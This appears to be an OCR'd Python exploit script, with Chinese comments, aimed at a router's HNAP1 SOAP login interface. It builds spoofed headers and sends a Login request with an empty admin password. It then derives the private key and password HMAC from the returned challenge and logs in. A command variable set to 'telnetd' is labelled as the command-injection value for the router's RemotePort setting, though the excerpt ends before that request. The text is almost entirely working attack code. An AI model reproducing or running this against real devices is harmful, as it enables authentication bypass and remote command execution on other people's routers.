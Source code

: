 ```

adminPw = ‘’

command = “telnetd” # command injection id

headers = requests.utils.default_headers()

headers[“User-Agent”] = “Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36”

headers[“SOAPAction”] = ‘“[http://purenetworks.com/HNAP1/Login](http://purenetworks.com/HNAP1/Login)”’

headers[“Origin”] = “http://” + IP

headers[“Referer”] = “http://” + IP + “/info/Login.html”

headers[“Content-Type”] = “text/xml; charset=UTF-8”

headers[“X-Requested-With”] = “XMLHttpRequest”

#构造一个action为request的请求发送给Login

payload = ‘<?xml version=“1.0” encoding=“utf-8”?><soap:Envelope xmlns:xsi=“[http://www.w3.org/2001/XMLSchema-instance](http://www.w3.org/2001/XMLSchema-instance)” xmlns:xsd=“[http://www.w3.org/2001/XMLSchema](http://www.w3.org/2001/XMLSchema)” xmlns:soap=“[http://schemas.xmlsoap.org/soap/envelope/](http://schemas.xmlsoap.org/soap/envelope/)”><soap:Body><Login xmlns=“[http://purenetworks.com/HNAP1/](http://purenetworks.com/HNAP1/)”><Action>request</Action><Username>Admin</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>’

r = requests.post(‘http://’+IP+’/HNAP1/’, headers=headers, data=payload)

data = r.text

#通过获取的publickey计算privatekey，根据privatekey计算口令的hmac(在上文中对应的是hmac_1)

challenge = str(data[data.find("<Challenge>") + 11: data.find("</Challenge>")])

cookie = data[data.find("<Cookie>") + 8: data.find("</Cookie>")]

publicKey = str(data[data.find("<PublicKey>") + 11: data.find("</PublicKey>")])

privateKey = hmac_md5(publicKey + adminPw, challenge).hexdigest().upper()

password = hmac_md5(privateKey, challenge).hexdigest().upper()

#构造action为login的请求，发送用户名和口令

headers[“HNAP_AUTH”] = HNAP_AUTH(“Login”, privateKey)

headers[“Cookie”] = “uid=” + cookie

payload = ‘<?xml version=“1.0” encoding=“utf-8”?><soap:Envelope xmlns:xsi=“[http://www.w3.org/2001/XMLSchema-instance](http://www.w3.org/2001/XMLSchema-instance)” xmlns:xsd=“[http://www.w3.org/2001/XMLSchema](http://www.w3.org/2001/XMLSchema)” xmlns:soap=“[http://schemas.xmlsoap.org/soap/envelope/](http://schemas.xmlsoap.org/soap/envelope/)”><soap:Body><Login xmlns=“[http://purenetworks.com/HNAP1/](http://purenetworks.com/HNAP1/)”><Action>login</Action><Username>Admin</Username><LoginPassword>’+password+’</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>’

r = requests.post(‘http://’+IP+’/HNAP1/’, headers=headers, data=payload)

#登录成功后访问SetRouterSettings设置路由器的一些配置，其中RemotePort被设置为command

```